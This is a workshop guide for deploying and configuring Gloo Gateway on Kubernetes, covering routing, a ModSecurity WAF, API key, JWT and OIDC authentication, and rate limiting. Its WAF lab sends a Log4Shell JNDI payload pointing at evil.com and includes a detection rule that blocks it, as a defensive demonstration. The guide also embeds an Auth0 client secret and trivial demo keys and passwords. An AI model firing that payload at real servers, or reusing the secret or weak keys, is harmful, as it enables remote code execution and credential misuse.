

# <center>Gloo Gateway Workshop</center>

## Introduction <a name="introduction"></a>


Gloo Gateway is a feature-rich next-generation API gateway and Ingress built on Envoy and Istio. Gloo Gateway is exceptional in its function-level routing; its support for legacy apps, microservices and serverless; its discovery capabilities; its numerous features; and its tight integration with leading open-source projects. Gloo Gateway is uniquely designed to support hybrid applications, in which multiple technologies, architectures, protocols, and clouds can coexist.


Built on top of the Istio ingress gateway, Gloo API Gateway extends Istio and Envoy by adding in additional functionality on top of its existing feature set.

While Gloo Gateways can be deployed across multiple clusters and centrally managed, in this lab, we will use a single cluster environment.

### Want to learn more about Gloo Gateway?

You can find more information about Gloo Gateway in the official documentation:

[https://docs.solo.io/gloo-mesh-enterprise/latest/concepts/gateway/](https://docs.solo.io/gloo-mesh-enterprise/latest/concepts/gateway/)

## Table of Contents

* [Introduction](#introduction)
* [Lab 1 - Deploy Kubernetes cluster](#Lab-1)
* [Lab 2 - Deploy Gloo Platform](#Lab-2)
* [Lab 3 - Deploy Gloo API Gateway](#Lab-3)
* [Lab 4 - Deploy Online Boutique Sample Application](#Lab-4)
* [Lab 5 - Configure Gloo Platform](#Lab-5)
* [Lab 6 - Expose Online Boutique](#Lab-6)
* [Lab 7 - Routing](#Lab-7)
* [Lab 8 - Web Application Firewall](#Lab-8)
* [Lab 9 - Authentication / API Key](#Lab-9)
* [Lab 10 - Authentication / JWT + JWKS](#Lab-10)
* [Lab 11 - Authentication / OIDC](#Lab-11)
* [Lab 12 - Rate Limiting](#Lab-12)

## Begin

To get started with this workshop, clone this repo.

```sh
git clone https://github.com/solo-io/solo-cop.git
cd solo-cop/workshops/gloo-gateway && git checkout v1.1.2
```

Set these environment variables which will be used throughout the workshop.

```sh
# Used to enable Gloo Gateway (please ask for a trail license key)
export GLOO_GATEWAY_LICENSE_KEY=<licence_key>
export GLOO_PLATFORM_VERSION=v2.1.0-beta13

# Istio version information
export ISTIO_IMAGE_REPO=us-docker.pkg.dev/gloo-mesh/istio-workshops
export ISTIO_IMAGE_TAG=1.13.5-solo
export ISTIO_VERSION=1.13.5
```

## Lab 1 - Configure/Deploy a Kubernetes cluster <a name="Lab-1"></a>

You will need a single Kubernetes cluster for this workshop.

This workshop can run on many different Kubernetes distributions such as EKS, GKE, OpenShift, RKE, etc or you can run locally using kind or k3d.

* [create local k3d cluster](infra/k3d/README.md)
* [create eks cluster using eksctl](infra/eks/README.md).
* [create gke cluster using gcloud](infra/gke/README.md).

* Set the Kubernetes cluster as your current context.

```sh
kubectl config use-context <context> 
```

## Lab 2 - Deploy Gloo Platform <a name="Lab-2"></a>


Gloo Platform provides a management plane to interact with the service mesh and gateways in your environment. The management plane exposes a unified API that is multi-tenant and multi-cluster aware. It is responsible for taking your supplied configuration and updating the gateways in your clusters. Included in the management plane is a UI for policy and traffic observability.

The `meshctl` command line utility provides convenient functions to quickly set up Gloo Platform, register workload clusters, run sanity checks, and debug issues. Let's start by installing this utility.

1. Download `meshctl` command line tool and add it to your path

```sh
curl -sL https://run.solo.io/meshctl/install | GLOO_MESH_VERSION=${GLOO_PLATFORM_VERSION} sh -

export PATH=$HOME/.gloo-mesh/bin:$PATH
```

2. Test that `meshctl` is correctly installed
```sh
meshctl version
```

3. Install Gloo Platform using `meshctl`

```sh
meshctl install --license $GLOO_GATEWAY_LICENSE_KEY --register --version $GLOO_PLATFORM_VERSION
```

## Lab 3 - Deploy Gloo API Gateway<a name="Lab-3"></a>


The Gloo Platform can easily deploy and manage your API Gateways for you. You can even deploy them to many clusters with a single configuration. For this workshop we will be deploying an API gateway to the same cluster as the management platform.

1. Download [istioctl](https://istio.io/latest/docs/setup/getting-started/)

```sh
curl -L https://istio.io/downloadIstio | ISTIO_VERSION=${ISTIO_VERSION} sh -
export PATH=$PWD/istio-${ISTIO_VERSION}/bin:$PATH

istioctl version
```

2. Install Gloo API gateway into the `gloo-gateway` namespace. We are using the istioctl utility to install Gloo API Gateway the same way you would install Istio Ingress Gateway. 

```sh
kubectl create namespace gloo-gateway
kubectl label namespace gloo-gateway istio-injection=enabled
istioctl install -y --set hub=$ISTIO_IMAGE_REPO --set tag=$ISTIO_IMAGE_TAG -f install/gloo-gateway/install.yaml
```

3. Wait for the Gloo Gateway LoadBalancer to become ready

```sh
until kubectl get service/gloo-gateway -n gloo-gateway --output=jsonpath='{.status.loadBalancer}' | grep "ingress"; do : ; done
export GLOO_GATEWAY=$(kubectl -n gloo-gateway get svc gloo-gateway -o jsonpath='{.status.loadBalancer.ingress[0].*}')
printf "\n\nGloo Gateway available at http://$GLOO_GATEWAY\n"
```

4. You need to setup your cluster environment to enable all the API gateway features. The below script deploys the optional `gloo-mesh-addons` features that enable features such as external authorization and rate limiting. Finally, you will also deploy your own OIDC provider `keycloak` which will allow you to secure your website with a user/pass login. 

```sh
kubectl create namespace dev-team
kubectl create namespace ops-team
kubectl create namespace gloo-gateway-addons
kubectl label namespace gloo-gateway-addons istio-injection=enabled

helm repo add gloo-mesh-agent https://storage.googleapis.com/gloo-mesh-enterprise/gloo-mesh-agent
helm repo update

helm upgrade --install gloo-gateway-addons gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-gateway-addons \
  --set glooMeshAgent.enabled=false \
  --set rate-limiter.enabled=true \
  --set ext-auth-service.enabled=true \
  --version $GLOO_PLATFORM_VERSION

kubectl apply -f install/gloo-gateway/addons-servers.yaml

./install/keycloak/setup.sh

export KEYCLOAK_CLIENTID=$(kubectl get configmap -n gloo-mesh keycloak-info -o json | jq -r '.data."client-id"')
export KEYCLOAK_URL=http://$(kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9000/auth

printf "\n\nKeycloak OIDC ClientID: $KEYCLOAK_CLIENTID\n\nKeycloak URL: $KEYCLOAK_URL\n"
```

## Lab 4 - Deploy Online Boutique Sample Application<a name="Lab-4"></a>



1. Deploy the Online Boutique backend microservices to the `backend-apis` namespace.

```sh
kubectl apply -f install/online-boutique/backend-apis.yaml
```

2. Deploy the frontend microservice to the `web-ui` namespace.

```sh
kubectl apply -f install/online-boutique/web-ui.yaml
```

## Lab 5 - Configure Gloo Platform Workspaces <a name="Lab-5"></a>


In this section, you'll learn about the Gloo **Workspaces** feature. Workspaces bring multi-tenancy isolation to your cluster. With Workspaces, you can explore how multiple personas can work independently without conflicting with each others configuration.

Imagine that you have the following teams. Each team represents a "tenant" in Gloo.

* The Ops team, who is responsible for the platform and ingress traffic.
* The Dev team, who is responsible for the frontend web application and backend apis that power the frontend.

Also note that a dedicated namespace is created for each workspace to place their configuration (`ops-team`, `dev-team` namespaces). It is recommended that the configuration is separate from your deployments.

```yaml
kubectl apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: ops-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: '*'
    namespaces:
    - name: ops-team     ### Configuration Namespace
    - name: gloo-gateway
    - name: gloo-gateway-addons
---
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: dev-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: '*'
    namespaces:
    - name: dev-team  ### Configuration Namespace
    - name: web-ui
    - name: backend-apis
EOF
```

3. Apply the settings for each workspace. These `WorkspaceSettings` objects are used to tune each indiviual workspace as well as import/export resources from other workspaces. 

```sh
kubectl apply -f tracks/workspace-settings.yaml
```

The `WorkspaceSettings` custom resource lets each team define the services and gateways that they want other workspaces from other teams to be able to access. This way, you can control the discovery of services in your service mesh and enable each team to access only what they need. To view the configuration, run `cat ./tracks/workspace-settings.yaml`

Each workspace can have only one WorkspaceSettings resource.

## Lab 6 - Expose the Online Boutique <a name="Lab-6"></a>


To capture the traffic coming to the API Gateway and route them to your applications, you need to use the `VirtualGateway` and `RouteTable` resources.

VirtualGateway represents a logical gateway configuration served by Gateway workloads. It describes a set of ports that the virtual gateway listens for incoming or outgoing HTTP/TCP connections, the type of protocol to use, SNI configuration etc.

RouteTables defines one or more hosts and a set of traffic route rules to handle traffic for these hosts. The traffic route rules can be delegated to other RouteTable based on one or more given hosts or specific paths.

This allows you to create a hierarchy of routing configuration and dynamically attach policies at various levels. 

1. Let's start by assuming the role of a Ops team. Configure the Gateway to listen on port 80 and create a generic RouteTable that further delegates the traffic routing to RouteTables in the `dev-team` workspace.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        namespace: gloo-gateway
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: ops-team
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: ingress
  namespace: ops-team
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
  workloadSelectors: []
  http:
    - name: dev-team-ingress
      labels:
        ingress: "true"
      delegate:
        routeTables:
        - workspace: dev-team
EOF
```

2. The Dev team can now write their own RouteTables in their own namespace. Create a RouteTable to send traffic that matches URI `prefix: /` to the frontend application.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: dev-team
spec:
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /
      name: frontend
      labels:
        route: frontend
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-ui
            port:
              number: 80
EOF
```

* Open browser

```sh
printf "\n\nOnline Boutique available at http://$GLOO_GATEWAY\n"
```

You've successfully exposed the frontend application thru the Gloo Gateway.

## Lab 7 - Routing <a name="Lab-7"></a>


### Routing to additional applications in the cluster

Next, lets see how easy it is to expose another application. This time, we will match on URI `prefix: /hipstershop.CurrencyService/Convert` and send to the currencyservice application.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: currency
  namespace: dev-team
spec:
  weight: 100
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /hipstershop.CurrencyService/Convert
      name: currency
      labels:
        route: currency
      forwardTo:
        destinations:
          - ref:
              name: currencyservice
              namespace: backend-apis
            port:
              number: 7000
EOF
```

The currencyservice converts units from one currency to another. Test the currencyservice by using the `grpcurl` utility to send traffic:

```sh
grpcurl --plaintext --proto ./install/online-boutique/online-boutique.proto -d '{ "from": { "currency_code": "USD", "nanos": 44637071, "units": "31" }, "to_code": "JPY" }' $GLOO_GATEWAY:80 hipstershop.CurrencyService/Convert
```

* We sent the following request:

```json
{
    "from": {
        "currency_code": "USD",
        "nanos": 44637071,
        "units": "31"
    },
    "to_code": "JPY"
}
```

* The expected response:

```json
{
  "currencyCode": "JPY",
  "units": "3471",
  "nanos": 67780486
}
```

### Routing to External endpoints

Next, lets route to an endpoint (http://httpbin.org) that is external to the cluster. `ExternalEndpoint` resource defines a static IP for routing which exist outside the mesh. ExternalEndpoints provide a mechanism for direct resolution of the addresses backing ExternalServices.

Once an ExternalEndpoint is created, a RouteTable can be used to send traffic to it. In this example, we will send traffic on URI prefix: /httpbin to this external service.

1. Create a reference to the httpbin.org. The `ExternalEndpoint` is a definition of where you can reach the external application. The `ExternalService` is a Gloo internal reference that the `RouteTable` can utilize. In certain use cases, you can assign many `ExternalEndpoints` to a single `ExternalService`

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: httpbin
  namespace: dev-team
  labels:
    external-service: httpbin
spec:
  address: httpbin.org
  ports:
    - name: http
      number: 80
    - name: https
      number: 443
---
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: dev-team
spec:
  selector:
    external-service: httpbin
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}   ### upgrade outbound call to HTTPS
EOF
```

2. Create a new `RouteTable` that will match on requests containing the prefix `/httpbin` and route it to the httpbin `ExternalService`

```yaml
kubectl apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: dev-team
spec:
  weight: 150
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /httpbin
      name: httpbin-all
      labels:
        route: httpbin
      forwardTo:
        pathRewrite: /
        destinations:
        - ref:
            name: httpbin
          port: 
            number: 443
          kind: EXTERNAL_SERVICE
EOF
```

3. Let's test it.

```sh
curl -v $GLOO_GATEWAY/httpbin/get
```

## Lab 8 - Web Application Firewall (WAF)<a name="Lab-8"></a>


Gloo Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.


2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/httpbin/get
```

3. With the Gloo WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

* In the route table, the frontend route has the label `route: httpbin`. The WAF policy applies to routes with this same label.
* In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.

```yaml
kubectl apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: httpbin ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the previous request again.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/httpbin/get
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your frontend app is no longer susceptible to `log4j` attacks, nice!

### Lab 9 - Authentication / API Key <a name="Lab-9"></a>

API key authentication is one of the easiest forms of authentication to implement. Simply create a Kubernetes secret that contains the key and reference it from the `ExtAuthPolicy`. It is recommended to label the secrets so that multiple can be selected and more can be added later. You can select any header to validate against.

1. Create two secrets that Gloo will validate against. One with the api-key `admin` and the other `developer`.

```yaml
kubectl apply -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: solo-admin
  namespace: dev-team
  labels:
    api-keyset: httpbin-users
type: extauth.solo.io/apikey
data:
  api-key: $(echo -n "admin" | base64)
---
apiVersion: v1
kind: Secret
metadata:
  name: solo-developer
  namespace: dev-team
  labels:
    api-keyset: httpbin-users
type: extauth.solo.io/apikey
data:
  api-key: $(echo -n "developer" | base64)
EOF
```

2. Create the API key `ExtAuthPolicy` that will match header `x-api-key` values againt the secrets created above.

```yaml
kubectl apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin-apikey
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: httpbin
  config:
    server:
      name: ext-auth-server
      namespace: dev-team
      cluster: mgmt-cluster
    glooAuth:
      configs:
      - apiKeyAuth:
          headerName: x-api-key
          labelSelector:
            api-keyset: httpbin-users
EOF
```

3. Call httpbin without an api key and you will get a 401 unauthorized message.

```sh
curl -v http://$GLOO_GATEWAY/httpbin/get
```

4. Call httpbin with the developer api key `x-api-key: developer`

```sh
curl -H "x-api-key: developer" -v http://$GLOO_GATEWAY/httpbin/get
```

5. Call httpbin with the admin api key `x-api-key: admin`

```sh
curl -H "x-api-key: admin" -v http://$GLOO_GATEWAY/httpbin/get
```

## Lab 10 - Authentication / JWT + JWKS<a name="Lab-10"></a>

JWT authentication using JSON web key sets (JWKS) is a much more robust mechanism for authentication as keys can be shorter lived / rotated and the validation is done against rotating keys. Also more information can be stored in JWTs vs API keys. In this example Auth0 is used as the JWT signer and JWKS provider. 

To create your own Auth0 Tokens, create an Auth0 `Application` and the JWKS will be located at `"https://<Auth0 Server>/.well-known/jwks.json"` and tokens can be generated calling the `https://<Auth0 Server>/oauth/token` endpoint.


1. First create and `ExternalEndpoint` and `ExternalService` to reference the `Auth0` server.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: auth0
  namespace: dev-team
  labels:
    external-service: auth0
spec:
  address: dev-64ktibmv.us.auth0.com
  ports:
    - name: https
      number: 443
---
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: auth0
  namespace: dev-team
spec:
  selector:
    external-service: auth0
  hosts:
  - dev-64ktibmv.us.auth0.com
  ports:
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

2. Create the `JWTPolicy` to authenticate JWT tokens.

```yaml
kubectl apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: currency
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: currency
  config:
    providers:
      auth0:
        issuer: "https://dev-64ktibmv.us.auth0.com/"
        audiences:
        - "https://httpbin/api"
        remote:
          url: "https://dev-64ktibmv.us.auth0.com/.well-known/jwks.json"
          destinationRef:
            ref:
              name: auth0
              namespace: dev-team
              cluster: mgmt-cluster
            kind: EXTERNAL_SERVICE
            port:
              number: 443
          enableAsyncFetch: true
EOF
```

3. Call `Auth0` to generate a temporary JWT token

```sh
ACCESS_TOKEN=$(curl -sS --request POST \
  --url https://dev-64ktibmv.us.auth0.com/oauth/token \
  --header 'content-type: application/json' \
  --data '{"client_id":"1QEVhZ2ERqZOpTQnHChK1TUSKRBduO72","client_secret":"J_vl_qgu0pvudTfGppm_PJcQjkgy-kmy5KRCQDj5XHZbo5eFtxmSbpmqYT5ITv2h","audience":"https://httpbin/api","grant_type":"client_credentials"}' | jq -r '.access_token')

printf "\n\n Access Token: $ACCESS_TOKEN\n"
```

4. Try calling currency service with no access token. You will need `grpcurl` installed and it can be downloaded here: [grpcurl installation](https://github.com/fullstorydev/grpcurl#installation)

```sh
grpcurl --plaintext --proto ./install/online-boutique/online-boutique.proto -d '{ "from": { "currency_code": "USD", "nanos": 44637071, "units": "31" }, "to_code": "JPY" }' $GLOO_GATEWAY:80 hipstershop.CurrencyService/Convert
```

5. Call currency service with an access token

```sh
grpcurl -H "Authorization: Bearer ${ACCESS_TOKEN}" --plaintext --proto ./install/online-boutique/online-boutique.proto -d '{ "from": { "currency_code": "USD", "nanos": 44637071, "units": "31" }, "to_code": "JPY" }' $GLOO_GATEWAY:80 hipstershop.CurrencyService/Convert
```

## Lab 11 - Authentication / OIDC<a name="Lab-11"></a>


Another valuable feature of API gateways is integration into your IdP (Identity Provider). In this section of the lab, we see how Gloo Gateway can be configured to redirect unauthenticated users via OIDC.  We will use Keycloak as our IdP, but you could use other OIDC-compliant providers in your production clusters.

1. In order for OIDC to work we need to enable HTTPS on our gateway. For this demo, we will create and upload a self-signed certificate which will be used in the gateway for TLS termination.

```sh
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"

kubectl -n gloo-gateway create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt

rm tls.crt tls.key
```

2. Adding HTTPS to our gateway is simple as updating the virtual gateway to use our ssl certificate.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: mgmt-cluster
        namespace: gloo-gateway
  listeners:
    - http: {}
      port:
        number: 80
      httpsRedirect: true
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret # NOTE
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: ops-team
EOF
```

3. Test out the new HTTPS endpoint (you may need to allow insecure traffic in your browser. Chrome: Advanced -> Proceed)

```sh
echo "Secure Online Boutique URL: https://$GLOO_GATEWAY"
```

The `ExtAuthPolicy` defines the provider connectivity including any callback paths that we need to configure on our application.

4. View the `ExtAuthPolicy` with environment variables replaced.

```sh
( echo "cat <<EOF" ; cat tracks/ext-auth-policy.yaml ; echo EOF ) | sh
```

5. Apply the `ExtAuthPolicy`

```sh
( echo "cat <<EOF" ; cat tracks/ext-auth-policy.yaml ; echo EOF ) | sh | kubectl apply -n dev-team -f -
```

Now if you refresh the application, you should be redirected to Keycloak to login.

6. Login using the following credentials

```sh
user: gloo-mesh
password: solo.io
```

And the application is now accessible.

7. When you are finished, click the 'logout' button in the top right corner of the screen.

## Lab 12 - Rate Limiting<a name="Lab-12"></a>


Secondly, we will look at rate limiting with Gloo Gateway.  The rate limiting feature relies on a rate limit server that has been installed in our gloo-mesh-addons namespace.

For rate limiting, we need to create three CRs.  Let's start with the `RateLimitClientConfig`.

The `RateLimitClientConfig` defines the conditions in the request that will invoke rate limiting.  In this case, we will define a key coming from the header `X-Organization`.

The `RateLimitPolicy` pulls together the `RateLimitClientConfig`, `RateLimitServerConfig` and sets the label selector to use in the `RouteTable`.

1. Apply the `RateLimitPolicy`

```yaml
kubectl apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: rate-limit-client-config
  namespace: dev-team
spec:
  raw:
    rateLimits:
    - actions:
      - genericKey:
          descriptorValue: counter
---
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: rate-limit-server-config
  namespace: ops-team
spec:
  destinationServers:
  - ref:
      name: rate-limiter
      namespace: gloo-gateway-addons
    port:
      name: grpc
  raw:
    descriptors:
    - key: generic_key
      rateLimit:
        requestsPerUnit: 3
        unit: MINUTE
      value: counter
---
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: rate-limit-policy
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: "httpbin" ##### NOTE
  config:
    serverSettings:
      name: rate-limit-server-settings
      namespace: dev-team
    ratelimitClientConfig:
      name: rate-limit-client-config
      namespace: dev-team
    ratelimitServerConfig:
      name: rate-limit-server-config
      namespace: ops-team
EOF
```

2. Test Rate Limiting

```sh
for i in {1..6}; do curl -iksS -H "x-api-key: developer" -X GET https://$GLOO_GATEWAY/httpbin/get | tail -n 10; done
```

3. Expected Response

```sh
HTTP/2 429
x-envoy-ratelimited: true
date: Sun, 05 Jun 2022 18:50:53 GMT
server: istio-envoy
x-envoy-upstream-service-time: 7
```
